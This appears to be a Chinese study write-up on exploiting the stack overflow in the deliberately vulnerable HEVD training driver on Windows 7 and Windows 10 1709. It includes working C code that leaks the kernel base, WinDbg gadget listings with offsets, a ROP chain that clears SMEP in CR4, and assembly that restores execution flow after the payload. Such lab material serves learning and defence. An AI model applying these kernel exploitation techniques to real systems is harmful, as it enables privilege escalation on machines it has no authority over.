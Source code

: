 ## Win7

为了让程序继续正常运行，运行完payload需要进行栈帧平衡。即`BufferOverflowStackIoctlHandler`函数结尾那样。

```assembly
add rsp, 28h
ret
```

## Win10 1709

16299.15.amd64fre.rs3_release.170928-1534

### Get nt base address 

1. EnumDrivers 

   ```c
   LPVOID addresses[1000];
   DWORD needed;
   
   EnumDeviceDrivers(addresses, 1000, &needed);
   
   printf("[+] Address of ntoskrnl.exe: 0x%p\n", addresses[0]);
   ```

2. NtQuerySystemInformation

   ```c
   PUCHAR GetKernelBase()
   {
   	DWORD len;
   	PSYSTEM_MODULE_INFORMATION ModuleInfo;
   	PUCHAR kernelBase = NULL;
   
   	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)
   		GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQuerySystemInformation");
   	if (NtQuerySystemInformation == NULL) {
   		return NULL;
   	}
   
   	NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &len);
   	ModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   	if (!ModuleInfo)
   	{
   		return NULL;
   	}
   
   	NtQuerySystemInformation(SystemModuleInformation, ModuleInfo, len, &len);
   
   	kernelBase = ModuleInfo->Module[0].ImageBase;
   	VirtualFree(ModuleInfo, 0, MEM_RELEASE);
   
   	return kernelBase;
   }
   ```

   

### ROP bypass SMEP

**gadget1**

```
kd> uf nt!KiConfigureDynamicProcessor
nt!KiConfigureDynamicProcessor:
fffff801`56024ba8 4883ec28        sub     rsp,28h
fffff801`56024bac e89773ffff      call    nt!KiEnableXSave (fffff801`5601bf48)
fffff801`56024bb1 4883c428        add     rsp,28h
fffff801`56024bb5 c3              ret
kd> uf fffff801`5601bf48
... snip ...

nt!KiEnableXSave+0x39b0:
fffff802`2cc318f8 btr     rcx,12h
fffff802`2cc318fd mov     cr4,rcx       // First gadget!
fffff802`2cc31900 ret
kd> ? fffff801`5601f8fd - nt
Evaluate expression: 4323581 = 00000000`0041f8fd
```

**gadget2**

```
kd> uf HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff801`55d5fc50 4851            push    rcx
fffff801`55d5fc52 50              push    rax
fffff801`55d5fc53 52              push    rdx
fffff801`55d5fc54 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff801`55d5fc5d b970000040      mov     ecx,40000070h
fffff801`55d5fc62 0fba3200        btr     dword ptr [rdx],0
fffff801`55d5fc66 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff801`55d5fc6e)  Branch

nt!HvlEndSystemInterrupt+0x18:
fffff801`55d5fc68 33c0            xor     eax,eax
fffff801`55d5fc6a 8bd0            mov     edx,eax
fffff801`55d5fc6c 0f30            wrmsr

nt!HvlEndSystemInterrupt+0x1e:
fffff801`55d5fc6e 5a              pop     rdx
fffff801`55d5fc6f 58              pop     rax
fffff801`55d5fc70 59              pop     rcx         // Second gadget!
fffff801`55d5fc71 c3              ret

kd> ? fffff801`55d5fc70 - nt
Evaluate expression: 1440880 = 00000000`0015fc70
```

**ROP chain**

```
+------------------+
|pop rcx; ret      |	// nt + 0x15fc70
+------------------+
|value of rcx      |	// ? @cr4 & FFFFFFFF`FFEFFFFF
+------------------+
|mov cr4, rcx; ret |	// nt + 0x41f8fd
+------------------+
|addr of payload   |	// Available from user-mode
+------------------+
```

### Repair execution flow

> - The non-volatile registers are: RBX, RBP, RDI, RSI, RSP, R12, R13, R14, and R15. They must be preserved between function calls
> - The volatile registers are: RAX, RCX, RDX, R8, R9, R10, R11

**尝试直接返回`HEVD!IrpDeviceIoCtlHandler+0x1db`，失败。**

因为不止破坏了返回地址。在`TriggerBufferOverflowStack`函数开始保存了**rbx, rsi, rdi**，在末尾恢复。但在保存的位置已经被ROP的的地址给覆盖了。

逆向发现rbx, rsi, rdi在`IrpDeviceIoCtlHandler`中设置了固定的值，自行恢复好后依旧崩溃。猜测是R12, R14, R15的原因，特别是R14存放了一个地址，在win7那里没有发生问题。

```c
PAGE:FFFFF880064865B4 ; int __fastcall TriggerBufferOverflowStack(void *UserBuffer, unsigned __int64 Size)
PAGE:FFFFF880064865B4 TriggerBufferOverflowStack proc near    ; CODE XREF: BufferOverflowStackIoctlHandler+15↑p
PAGE:FFFFF880064865B4                                         ; DATA XREF: .pdata:FFFFF88006484150↑o
PAGE:FFFFF880064865B4
PAGE:FFFFF880064865B4 var_818         = byte ptr -818h
PAGE:FFFFF880064865B4 var_18          = byte ptr -18h
PAGE:FFFFF880064865B4 arg_0           = qword ptr  8
PAGE:FFFFF880064865B4 arg_8           = qword ptr  10h
PAGE:FFFFF880064865B4 arg_10          = qword ptr  18h
PAGE:FFFFF880064865B4
PAGE:FFFFF880064865B4 ; __unwind { // __C_specific_handler_0
PAGE:FFFFF880064865B4                 mov     [rsp+arg_0], rbx
PAGE:FFFFF880064865B9                 mov     [rsp+arg_8], rsi
PAGE:FFFFF880064865BE                 mov     [rsp+arg_10], rdi
    
   ......snip......
    
PAGE:FFFFF880064866A0 loc_FFFFF880064866A0:                   ; CODE XREF: TriggerBufferOverflowStack+CF↑j
PAGE:FFFFF880064866A0                 mov     eax, ebx
PAGE:FFFFF880064866A2                 lea     r11, [rsp+838h+var_18]
PAGE:FFFFF880064866AA                 mov     rbx, [r11+20h]
PAGE:FFFFF880064866AE                 mov     rsi, [r11+28h]
PAGE:FFFFF880064866B2                 mov     rdi, [r11+30h]
PAGE:FFFFF880064866B6                 mov     rsp, r11
PAGE:FFFFF880064866B9                 pop     r15
PAGE:FFFFF880064866BB                 pop     r14
PAGE:FFFFF880064866BD                 pop     r12
PAGE:FFFFF880064866BF                 retn
```

经过逆向和调试得到下方的恢复代码，与参考的几个exploit都不一样

```assembly
xor rax, rax

xor r12, r12
; xor r14, r14                 ; R14 will be restored in IrpDeviceIoCtlHandler
; xor r15, r15
xor rdi, rdi

add rsp, 10h                   ; Return to IrpDeviceIoCtlHandler
```

## Q&A

1. WinDbg(调试机中的DebugView) 不显示 `DbgPrint` 的信息

   在被调试机中的DebugView程序中，选中Capture->Enable Verbose Kernel Output，两侧就都能显示了。（会打印过多的信息！！...）

2. HEVD 驱动调试符号载入

   添加HEVD.pdb的路径。而后在Debug->Modules中找到并选中HEVD，然后点击reload。关闭该窗口后会显示其执行了如下命令

   ```
   .reload /f @"HEVD.sys"
   ```

## ERROR1

ROP bypass SMEP中，设置CR4 为 0x70678，user code 运行中途会触发SMEP保护（目测）。。

设为0x506f8（原值：0x1506f8）即可

## ERROR2

`uf nt!KiConfigureDynamicProcessor` 找gadget1的过程中，提示 no code found, aborting。 

好在一开始正常反汇编，找到了gadget地址。

后来异常，**未解决**

## Ref

1. [Kernel Exploit 2: Token Stealing Payload 注解](https://www.abatchy.com/2018/01/kernel-exploitation-2)
2. VS Studio 添加ASM [链接1](http://lallouslab.net/2016/01/11/introduction-to-writing-x64-assembly-in-visual-studio/) [链接2](https://zhuanlan.zhihu.com/p/31918676)
3. [HEVD Window Kernel Exploit 01 - StackOverflow](https://www.anquanke.com/post/id/218682)
4. [Windows内核漏洞学习之栈溢出-hevd第一篇](https://github.com/xinali/articles/issues/66)
5. [Kernel Exploit 4: Stack Overflow (bypass SMEP)](https://www.abatchy.com/2018/01/kernel-exploitation-4)
6. [SMEP: What is it, and how to beat it on Windows](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/)

